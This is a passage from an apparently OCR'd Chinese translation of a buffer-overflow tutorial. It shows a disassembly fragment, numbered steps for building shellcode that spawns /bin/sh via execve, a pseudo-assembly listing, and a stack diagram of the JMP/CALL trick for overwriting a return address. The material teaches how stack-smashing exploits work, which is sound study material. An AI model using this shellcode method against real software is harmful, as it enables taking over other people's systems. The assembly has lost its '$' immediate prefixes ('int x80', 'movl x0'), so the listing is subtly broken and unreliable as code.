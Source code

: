```
0x800035f <_exit+19>: popl %ebp
0x8000360 <_exit+20>: ret
0x8000361 <_exit+21>: nop
0x8000362 <_exit+22>: nop
0x8000363 <_exit+23>: nop
End of assembler dump.
```

系统调用`exit`会把`0x1`放到寄存器EAX中, 在EBX中放置退出码, 并且执行`int 0x80`. 就这些了! 大多数应用程序在退出时返回0, 以表示没有错误. 我们在EBX中也放入0. 现在我们构造shell code的步骤就是这样的了:

a) 把以`NULL`结尾的字串`"/bin/sh"`放到内存某处.
b) 把字串`"/bin/sh"`的地址放到内存某处, 后面跟一个空的长字(null long word).
c) 把`0xb`放到寄存器EAX中.
d) 把字串`"/bin/sh"`的地址放到寄存器EBX中.
e) 把字串`"/bin/sh"`地址的地址放到寄存器ECX中.
(注: 原文d和e步骤把EBX和ECX弄反了)
f) 把空长字的地址放到寄存器EDX中.
g) 执行指令`int x80`.
h) 把`0x1`放到寄存器EAX中.
i) 把`0x0`放到寄存器EBX中.
j) 执行指令`int x80`.

试着把这些步骤变成汇编语言, 把字串放到代码后面. 别忘了在数组后面放上字串
地址和空字, 我们有如下的代码:

```
movl string_addr,string_addr_addr
movb x0,null_byte_addr
movl x0,null_addr
movl xb,%eax
movl string_addr,%ebx
leal string_addr,%ecx
leal null_string,%edx
int x80
movl x1, %eax
movl x0, %ebx
int x80
/bin/sh string goes here.
```

问题是我们不知道在要破解的程序的内存空间中, 上述代码(和其后的字串)会被放到哪里. 一种解决方法是使用JMP和CALL指令.JMP和CALL指令使用相对IP的寻址方式, 也就是说我们可以跳到距离当前IP一定间距的某个位置, 而不必知道那个位置在内存中的确切地址. 如果我们在字串`"/bin/sh"`之前放一个CALL指令, 并由一个JMP指令转到CALL指令上. 当CALL指令执行的时候, 字串的地址会被作为返回地址压入堆栈之中. 我们所需要的就是把返回地址放到一个寄存器之中. CALL指令只是调用我们上述的代码就可以了. 假定`J`代表JMP指令, `C`代表CALL指令, `s`代表字串, 执行过程如下所示:

```
内存低地址                                       内存高地址
+----------------------+------+------+------+------+------+
| DDDDDDDDEEEEEEEEEEEE | EEEE | FFFF | FFFF | FFFF | FFFF |
+----------------------+------+------+------+------+------+
| 89ABCDEF0123456789AB | CDEF | 0123 | 4567 | 89AB | CDEF |
+----------------------+------+------+------+------+------+
|       buffer         | sfp  | ret  |  a   |  b   |  c   |
+----------------------+------+------+------+------+------+
| JJSSSSSSSSSSSSSSCCss | ssss | 0xD8 | 0x01 | 0x02 | 0x03 |
+----------------------+------+------+------+------+------+
  ↑|↑             ↑|            |
  +||-------------||------------+ (1)
   +|-------------+|              (2)
    +--------------+              (3)
堆栈顶部                                           堆栈底部
```
